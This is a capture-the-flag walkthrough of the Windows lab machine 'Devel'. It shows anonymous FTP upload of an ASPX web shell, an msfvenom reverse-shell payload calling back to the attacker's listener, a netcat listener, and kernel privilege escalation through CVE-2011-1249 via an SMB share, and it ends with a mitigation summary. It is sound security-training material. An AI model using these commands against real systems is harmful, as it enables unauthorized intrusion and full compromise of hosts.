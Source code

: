 ```yaml
---
title: 'Devel-Walkthrough'
date: '2024-05-29T11:33:22.318Z'
keywords: []
classes: wide
tags: 
  - Identification-and-authentication-failures
  - Uncontrolled-file-upload
  - Missing-security-patches
---
```


## Walkthrough - Devel

![Devel machine exploitation matrix](/assets/images/1__E89__CXQXg__HC3aRCjl7LDw.png "Figure 1 -Devel machine exploitation matrix")

Devel is a relatively straightforward machine running the Microsoft Windows OS that shows how weak authentication to file servers, uncontrolled file uploads and missing security patches, combined, can lead to the complete compromise of a web application.  As a result the file transfer protocol (FTP) server allowing ANONYMOUS access, I was able to login to the FTP server without credentials.  As a result of the IIS web server not restricting what file types can be uploaded to it, I was able to upload and execute a malicious ASPX file containing a reverse shell payload on the victim machine to gain a foothold as a low privileged, non-administrative user. As a result of missing security patches, a kernel vulnerability that leads to privilege escalation was exploited to give me root user as **NT Authority\\System.**

In the last section, I've included a summary of all the vulnerabilities found on this machine and security controls to mitigate exploitation.

## Step 1 — Enumeration

As a first step, I try to gather as much as information as I can about the target machine such as open ports, running services, OS and version etc. For this I use **Nmap** tool with below syntax. Brief explanation of flags:

* \-sV — Detect services running at IP address and their versions
* \-sC — Run the default set of Nmap scripts to gather more information
* \-T4 — Speed up the performance of the scan

```bash
Nmap \-sV \-sC \-T4
```

![Nmap scan output](/assets/images/1__m3sksBlneos6fysIWbUorw.png "Figure 2 - Nmap scan output")

The information from the Nmap scan is very interesting and suggests some initial attack vector we can use to exploit. In addition to ANONYMOUS login being enabled on the FTP server, the files **iisstart.htm** and **welcome.png** are actually the files hosted at the web server root!

At this point, I usually like to further enumerate with tools like GoBuster using a good word list to search for hidden directories that could contain sensitive data such as **/Admin**. However, as the web root directory appears to be accessible via FTP, I will focus my attack in this direction.

## Step 2 — Gaining foothold as low privileged web application user

As the web root directory can be accessed via the FTP server, I upload a simple ASPX web shell to test both if the FTP grants write privileges, and if so, whether remote command execution (RCE) is possible.

### Testing for RCE on web server

I locate the default web shell for ASPX in Kali Linux and copy it to my local user desktop, and then upload it to the web root via FTP **PUT** command. As Anonymous FTP login is enabled, user ID is just **Anonymous** with **blank password**.

```bash
ftp 10.10.10.5
```

![ASPX webshell uploaded to victim machine](/assets/images/1__JliQL2Ow8NopIyKGywvS6Q.png "Figure 3 - ASPX webshell uploaded to victim machine")

I then access to the web shell via the browser at [http://10.10.10.5/cmdasp.aspx](http://10.10.10.5/cmdasp.aspx). I test RCE by issuing the **Whoami** command. The command is successful, returning the login ID of the currently logged in user, **iis apppool\\web,** confirming we have RCE.

![Successful remote code execution on victim machine](/assets/images/1__v9blxScERuGHExhmIzFcXA.png "Figure 4 - Successfule remote code execution on victim machine")

### Obtaining a reverse shell to victim machine as low-level privileged user

The next step after validating RCE is to obtain a reverse shell. There are several ways to obtain a reverse shell, but here I will create a custom payload encoded in the ASPX format using **msfvenom** (component of MetaSploit framework — Read more [**here**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).) I will upload this payload to web server via FTP put command as shown above. Explanation of flags and parameters:

* \-p — payload selection (simple reverse shell over TCP chosen)
* LHOST — The local IP of my Kali instance as the attacking machine
* LPORT — The local port for victim to connect (can be any open port)
* \-f — payload encoding (choose ASPX to match web server language)
* \-o — Output file name

```bash
msfvenom -p windows/shell\_reverse\_tcp LHOST 10.10.10.30 LPORT 4444 -f aspx -o reverseshell.aspx
```

Next, I will set up a Net Cat listener on my machine in listen mode to catch the reverse shell once the malicious ASPX page is accessed on the web server. Explanation of flags and input parameters:

* \-l — Put Net Cat into listening mode
* \-v — Enable verbose output (use -vv for more verbosity)
* \-n — Do not resolve DNS
* \-p — Port to listen on (choose 4444 to match payload from msvenom)

```bash
nc -lvnp 4444
```

![NetCat listener set up on my machine to catch reverse shell connection from victim machine](/assets/images/1__DIk9__HtBCf__KjWeqB1XvYA.png "Figure 6 - NetCat listener set up on my Kali Linux machine to catch reverse shell connection from victim computer")

Upon issuing a cURL command to the victim’s IP address in the Kali console, Net Cat will catch the reverse shell and we gain access to the victim’s machine as the low privileged user, **iis apppool\\web**

```bash
curl <http://10.10.10.5/reverseshell.aspx>
```

![Successful reverse shell connection established on victim machine](/assets/images/1__W3y3yPv__7__NE57UXB__GTwQ.png "Figure 7 - Successful reverse shell connection established on victim computer")

## Step 3 — Privilege escalation to root user as NT Authority\\System

### Enumerating Victim Computer for Vulnerabilities to escalate privileges

The next step after gaining an initial foothold is to escalate our privileges to the ROOT user as **NT Authority\\System**. The first step I do is run the **systeminfo** command which will output detailed information about the victim’s machine such as the OS build version, patches applied etc. The output of systeminfo below shows the OS version to be **6.1.7600 N/A Build 7600** and more importantly, **no hotfix patches have been applied**!

![Systeminfo command output showing missing security patches on victim's machine](/assets/images/1__Nx__Evi4GZDYU73bax42cXw.png "Figure 8 - Systeminfo command output showing missing security patches")

A simple Google search for “**privesc 6.1.7600 N/A Build 7600**” reveals the victim’s machine is vulnerable to **CVE-2011–1249** caused by the Windows ancillary function driver (Afd driver) running in elevated kernel mode improperly validating input passed to it from non — elevated user mode. CVE-2011–1249 already exists within the OffSec exploit database so the raw exploit code can be accessed using the **searchsploit** command in Kali Linux and copied to working directory with the -m flag.

![CVE-2011-1249 vulnerability details](/assets/images/1__63BdYjOulxxU92__oqL2hXg.png "Figure 9 - CVE-2011-1249 vulnerability details")

### Compiling vulnerability exploit code into an executable program

I run the one-line code to compile the exploit executable in the same directory on my Kali Linux machine where I downloaded the raw exploit. 40564.C is the raw exploit code from searchsploit -m 40564.c command.

![Compiled vulnerability executable](/assets/images/1__hcp__TtfkzlQCHzhd9xweHA.png "Figure 10 - Compiled vulnerability exploit into executable program")

### Executing vulneraiblity exploit on victim machine to escalate access privileges to ROOT user

The final step is to transfer the malicious payload from my Kali Linux machine to the victim’s machine and execute it there, for which I will use the **Impacket smbserver.py** script from the Impacket scripts bundle. I create a directory that will be shared with the victim (share) and copy the exploit executable to this directory. Upon the victim (Devel) successfully authenticating to my malicious SMB share, the exploit executes, giving me root as **NT authority\\system.**

![Successful incoming connection to SMB file share by victim computer](/assets/images/1__Z54iWr4b0zMGwf5jTQmzDw.png "Figure 11 - Successful catching of reverse shell connection from victim computer to my Kali Linux machine")
![Successful CVE-2011-1249 exploitaition leading to ROOT user privileges](/assets/images/1__iGGcd78yopUMBy8yb3KFNw.png "Figure 12 - Successful elevation of privilges to ROOT user via exploitation of CVE-2011-1249 vulnerability")

## Vulnerability summary

The machine demonstrated the following vulnerabilities:

* **Arbitrary file upload -** Vulnerability allows a malicious user to upload dangerous file types directly to a web server. In this example, as a result of the web server not validating the file extensions and content of files uploaded, I was able to upload a malicious ASPX file containing a reverse shell payload allowing me to gain unauthorized access on the web server for initial foothold.

* **Security misconfiguration —** Vulnerability due to insecure settings allows malicious actors to take malicious actions. In this example, there are two misconfigurations that allowed compromise:

  * FTP configured to allow ANONYMOUS authentication with PUT (write) privileges to the same root directory as the web server

  * Execute privileges being enabled on the web server root directory where arbitrary files are uploaded.

* **Missing security patches —** As a result of missing hotfix patches, I was able to use a publicly released vulnerability exploit to escalate my access to root user upon gaining initial foothold on machine
